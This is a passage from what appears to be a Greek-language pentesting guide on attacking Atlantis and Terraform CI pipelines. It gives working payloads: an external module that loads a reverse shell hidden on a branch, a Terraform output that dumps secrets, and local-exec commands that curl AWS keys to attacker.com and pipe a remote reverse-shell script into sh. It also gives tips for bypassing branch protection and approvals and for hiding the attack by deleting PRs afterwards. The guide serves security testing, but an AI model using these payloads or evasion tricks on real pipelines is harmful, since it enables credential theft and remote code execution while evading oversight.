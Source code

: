 * Αντί να προσθέσετε το rev shell απευθείας στο αρχείο terraform, μπορείτε να **φορτώσετε έναν εξωτερικό πόρο** που περιέχει το rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Μπορείτε να βρείτε τον κώδικα rev shell στο [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* Στον εξωτερικό πόρο, χρησιμοποιήστε τη δυνατότητα **ref** για να κρύψετε τον **κώδικα terraform rev shell σε ένα branch** μέσα στο repo, κάτι σαν: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* **Αντί** να δημιουργήσετε ένα **PR προς το master** για να ενεργοποιήσετε το Atlantis, **δημιουργήστε 2 branches** (test1 και test2) και δημιουργήστε ένα **PR από το ένα στο άλλο**. Όταν ολοκληρώσετε την επίθεση, απλά **αφαιρέστε το PR και τα branches**.

#### Atlantis plan Secrets Dump

Μπορείτε να **dump secrets που χρησιμοποιούνται από το terraform** εκτελώντας `atlantis plan` (`terraform plan`) βάζοντας κάτι σαν αυτό στο αρχείο terraform:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
#### Atlantis apply RCE - Τροποποίηση ρυθμίσεων σε νέο PR

Εάν έχετε δικαίωμα εγγραφής σε ένα αποθετήριο, θα μπορείτε να δημιουργήσετε ένα νέο κλάδο σε αυτό και να δημιουργήσετε ένα PR. Εάν μπορείτε να **εκτελέσετε `atlantis apply`, θα μπορείτε να κάνετε RCE μέσα στον διακομιστή Atlantis**.

Ωστόσο, συνήθως θα χρειαστεί να παρακάμψετε κάποιες προστασίες:

* **Mergeable**: Εάν αυτή η προστασία είναι ενεργοποιημένη στο Atlantis, μπορείτε να εκτελέσετε **`atlantis apply` μόνο εάν το PR είναι mergeable** (που σημαίνει ότι η προστασία του κλάδου πρέπει να παρακαμφθεί).
* Ελέγξτε πιθανές [**παρακάμψεις προστασιών κλάδου**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
* **Approved**: Εάν αυτή η προστασία είναι ενεργοποιημένη στο Atlantis, κάποιος **άλλος χρήστης πρέπει να εγκρίνει το PR** πριν μπορέσετε να εκτελέσετε `atlantis apply`
* Από προεπιλογή, μπορείτε να εκμεταλλευτείτε το [**Gitbot token για να παρακάμψετε αυτή την προστασία**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)

Εκτελώντας **`terraform apply` σε ένα κακόβουλο αρχείο Terraform με** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Απλά πρέπει να βεβαιωθείτε ότι κάποιο payload όπως τα παρακάτω καταλήγει στο αρχείο `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Ακολουθήστε τις **προτάσεις από την προηγούμενη τεχνική** για να εκτελέσετε αυτήν την επίθεση με **πιο διακριτικό τρόπο**.
